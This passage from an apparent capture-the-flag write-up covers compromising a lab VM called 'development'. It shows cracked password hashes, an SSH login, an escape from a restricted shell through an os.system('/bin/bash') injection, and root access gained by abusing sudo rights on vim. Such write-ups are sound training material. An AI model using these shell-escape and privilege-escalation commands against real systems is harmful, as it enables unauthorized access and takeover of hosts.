 ```python

if __name__=="__main__":
    for hash in hashes:
        cracked=decrypt(hash)
        if cracked:
            print(f"{hash}: {cracked}")
```
We execute the script and obtain the passwords.

``` bash
root@kali:~$ ./decrypt.py 
4a8a2b374f463b7aedbb44a066363b81: 12345678900987654321
87e6d56ce79af90dbe07d387d3d0579e: P@ssw0rd25
ee64497098d0926d198f54f6d5431f98: qiu
```
We log in to ssh with the username **intern** and password **12345678900987654321** and we have access to a limited shell, to scape this we execute the instruction as shown below: 

``` bash
root@kali:~$ ssh intern@192.168.179.130 
intern@192.168.179.130's password: 
intern:~$ ?
cd  clear  echo  exit  help  ll  lpath  ls
intern:~$ echo os.system("/bin/bash")
intern@development:~$ 
```

I tried to access via ssh with the **patrick** user but he was not allowed, so from the **intern** user I changed to the **patrick** user with the password **P@ssw0rd25**, listing the sudo permissions for this user I found that he was allowed run nano and vim.

``` bash
intern@development:~$ su patrick
Password: 
patrick@development:/home/intern$ 
patrick@development:~$ sudo -l
Matching Defaults entries for patrick on development:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User patrick may run the following commands on development:
    (ALL) NOPASSWD: /usr/bin/vim
    (ALL) NOPASSWD: /bin/nano
patrick@development:~$ 
```

## Privilege Escalation
### Sudo Permissions
**Privilege scalation with vim**

To escalate privileges with vim we will abuse its ability to execute commands, as shown below:

``` bash
patrick@development:~$ sudo vim -c ':!/bin/bash'

root@development:~# id
uid=0(root) gid=0(root) groups=0(root)
```
